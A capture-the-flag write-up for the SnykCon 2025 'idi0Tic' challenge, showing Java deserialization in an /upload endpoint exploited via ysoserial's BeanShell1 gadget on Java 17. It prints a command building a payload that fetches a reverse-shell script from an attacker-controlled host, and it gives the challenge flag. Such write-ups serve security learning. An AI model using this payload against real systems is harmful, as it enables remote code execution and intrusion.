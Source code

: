 # idi0Tic
![image](https://github.com/user-attachments/assets/54c21ff4-d56c-470f-a0f4-15e68ea60f27)

Attachment: [challenge.zip](https://github.com/LazyTitan33/CTF-Writeups/raw/refs/heads/main/SnykCon2025/attachments/idiotic.zip)

## Writeup

From the Dockerfile, I can tell that this application is using Java 17 JDK.  

![image](https://github.com/user-attachments/assets/8c9a0c17-7b25-4399-8f89-e4742882efba)

A simple login page greets me:  

![image](https://github.com/user-attachments/assets/d18c10be-4af5-47fb-9d09-f36524ce23b5)

Going through the provided source code, I can see valid credentials so I can login:  

![image](https://github.com/user-attachments/assets/44559b04-7524-478b-8763-c3546c03393d)

Looking further in the source code, using Visual Studio Code with the [Snyk](https://docs.snyk.io/scm-ide-and-ci-cd-integrations/snyk-ide-plugins-and-extensions/visual-studio-code-extension) extension installed :wink:, it correctly identifies a  High Severity vulnerability due to Deserialization of Untrusted Data.  

![image](https://github.com/user-attachments/assets/9b9fd789-7480-4720-ae09-431d228902aa)

After logging in, I can see an option to Add Device, among other options:  

![image](https://github.com/user-attachments/assets/4323552a-5efe-4023-b758-57c5860e6804)

The /upload endpoint is indeed the one doing the deserialization:  

![image](https://github.com/user-attachments/assets/1529a434-0cbb-4cd9-9b3e-9bd9d2a253b9)

I can also generate a .bin file:  

![image](https://github.com/user-attachments/assets/b64d4123-5030-432e-830c-ac5de01d8c75)

Which is just serialized data:  

![image](https://github.com/user-attachments/assets/83937da1-5958-4d6e-91d8-ddc16042f194)

When adding the device, I can import this .bin file and in Burp, I can see it is uploading it as base64 blob, just like the source code says:  

![image](https://github.com/user-attachments/assets/a22353de-5d39-4657-96e3-88e5093c6791)

Under the Model folder, I can see the `Device.java` code is the only class that implements `Serializable` so this is definitely the endpoint/functionality we need to focus on to exploit the Java Deserialization.  

![image](https://github.com/user-attachments/assets/0d07ccc0-9704-433e-8045-929ef7ce8e46)

> [!IMPORTANT]  
> I spent quite a few hours troubleshooting and trying various methods. It got to be quite annoying as I was sure I was doing the correct thing but I couldn't get RCE. Finally I found [this](https://github.com/frohoff/ysoserial/issues/203) github issue raised on ysoserial having issues with Java 17. There is a lengthy discussion about needing to use specific flags and the arguments need to be in a slightly different order.

I was finally able to get RCE by using this syntax:

```bash

java --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.trax=ALL-UNNAMED --add-opens=java.xml/com.sun.org.apache.xalan.internal.xsltc.runtime=ALL-UNNAMED --add-opens=java.base/sun.reflect.annotation=ALL-UNNAMED   --add-opens=java.base/java.net=ALL-UNNAMED --add-opens=java.base/java.util=ALL-UNNAMED  -jar ysoserial-all.jar BeanShell1 'curl VPS_IP:1337/r.sh -O'|base64 -w0

```

I'm using BeanShell1 because I noticed beanshell being used as a dependency in pom.xml with the same version mentioned by ysoserial:  

![image](https://github.com/user-attachments/assets/6289fa0d-514a-422a-8461-423efb8e6dd2)

The first generates a base64 payload that when deserialized, uploads a bash reverse shell. Because java can be weird with piping and redirections, I simply run a second command to run the bash reverse shell.

![image](https://github.com/user-attachments/assets/9309db04-1bde-4852-b642-5f5c710863cb)

flag{927868b13a72eef4b4ebd186140af680}

